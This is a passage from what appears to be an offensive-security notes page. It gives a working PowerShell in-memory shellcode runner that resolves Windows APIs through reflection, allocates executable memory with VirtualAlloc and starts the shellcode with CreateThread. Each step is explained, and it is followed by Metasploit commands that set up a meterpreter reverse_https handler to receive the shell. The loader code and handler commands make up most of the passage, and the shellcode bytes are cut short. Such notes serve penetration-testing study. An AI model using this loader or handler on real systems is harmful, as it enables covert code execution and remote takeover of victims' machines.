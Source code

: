             Param ($moduleName, $functionName)

            $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
            Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
            $tmp=@()
            $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
            return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
        }

        function getDelegateType {

            Param (
                [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
                [Parameter(Position = 1)] [Type] $delType = [Void]
            )

            $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])

        $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed')

        $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed')

            return $type.CreateType()
        }

        $lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)

        [Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0...

        [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

        $hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)

        [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
        ```
        - What's going on here:
            1. `lookupFunc` 👉🏻 to obtain a reference to the System.dll assembly's GetModuleHandle and GetProcAddress methods using GetType and GetMethod functions (aka the Reflection technique).
            2. `getDelegateType` 👉🏻 to define the argument types for the APIs using a delegate type via Reflection and return it.
            3. `VirtualAlloc` 👉🏻 to allocate writable, readable, and executable (unmanaged) memory space in virtual address space of the calling process.
            4. `Copy` 👉🏻 to copy the shellcode bytes into allocated memory location.
            5. `CreateThread` 👉🏻 to create a new execution thread in the calling process and execute the shellcode.
            6. `WaitForSingleObject` 👉🏻 to delay termination of the PowerShell script until the shell fully executes.
3. Use Metasploit (`sudo msfconsole -q`) and set up a `multi-handler` with the same payload used in msfvenom.
    ```bash
    use multi/handler
    set payload windows/meterpreter/reverse_https
    set LHOST tun0
    set LPORT 443
    options
    exploit
    ```